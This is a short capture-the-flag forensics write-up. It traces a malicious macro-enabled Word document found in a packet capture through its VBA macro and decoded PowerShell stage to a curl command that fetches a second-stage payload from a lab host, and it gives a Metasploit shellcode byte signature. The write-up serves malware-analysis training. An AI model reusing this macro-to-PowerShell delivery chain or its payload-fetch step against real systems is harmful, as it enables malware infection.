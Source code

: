 # FIle: 
https://github.com/7h4nd5RG0d/Forensics/blob/main/Steganography/freeflag(WORD)--Macros%2BAlternate%20Text/9f982b056b326e26bf78bca33bd2fe65.pcapng  
# Solve: 
https://github.com/PWrWhiteHats/BtS-2024-Writeups/tree/master/forensics/free_flag/writeup  



1)We can get the freeflag.docm by exporting objects from HTTP.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/e57208d7-d871-4c00-971b-fce4fdedad88)  
2) Open the word in kali and using olevba you can get the macros.
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/11bb769f-b240-434d-b746-e1c101b51837)  
3) Using libreoffice(**Right Click on first image-->Properties-->Options-->Description**) you can get the alternate text for the image.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/b170f6bd-42bc-42e2-b077-78d02fc243c9)  
4) Converting the VBA code to python we get the output as a powershell script.  
https://github.com/7h4nd5RG0d/Forensics/blob/main/Steganography/freeflag(WORD)--Macros%2BAlternate%20Text/code.py  
5)Time to decode the powershell script.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/7632494b-a186-44bd-b865-9101ba449fda)  
6)Identating the shell script we get it as: 
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/1a251011-df52-4797-9594-36de8c0d3e73)  
7) We can get the required file by : **curl http://192.168.56.1:1337/d9d9dec9d5d2**  
8) After that following the decryption we get the C# code.  
9) Running the C# code on https://dotnetfiddle.net/ we get the flag.  
## Something new:  
1) Images may contain alternate text for helping visually impaired images which comes under macros.
2) Look out for the hexadecimal pattern **fc e8 82 00 00 00 ...** to identify shellcode.
3) Shellcode Analysis:- https://medium.com/ce-digital-forensics/analysing-metasploit-framework-shellcode-e66b89411000  
